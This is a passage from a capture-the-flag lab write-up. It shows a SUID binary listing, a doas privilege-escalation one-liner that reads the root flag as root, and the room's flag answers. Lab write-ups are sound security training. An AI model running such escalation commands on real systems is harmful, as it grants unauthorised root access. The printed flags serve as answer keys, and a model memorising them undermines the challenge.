   -rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
  -rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
  -rwsr-xr-x 1 root root 113528 Jul 10  2020 /usr/lib/snapd/snap-confine
  -rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
  -rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
  -rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
  -rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
  -rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
  -rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
  -rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
  -rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
  -rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
  -rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
  -rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
  -rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
  -rwsr-xr-x 1 root root 149080 Jan 19  2021 /usr/bin/sudo
  -rwsr-xr-x 1 root root 37952 Jan 15  2021 /usr/local/bin/doas
  ```
  
- Well, I googled this `doas` file and found the way to escalate with it. It's a one-liner command that will execute commands as root.

  ```
  v0id@ubuntu:~$ doas -u root bash -c 'cat /root/root.txt'
  Password: 
  THM{diamonds_break_our_aching_minds}
  ```
  
- That's all folks, you can find more on `doas` exploitation [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/)

---

## 🏁 Flags

- **Access Token**: `this_is_not_real`
- **User Flag**: `THM{i_don't_know_why}`
- **Root Flag**: `THM{diamonds_break_our_aching_minds}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding my way around webshell.`

- What did I learn?
  `New exploitation methods.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
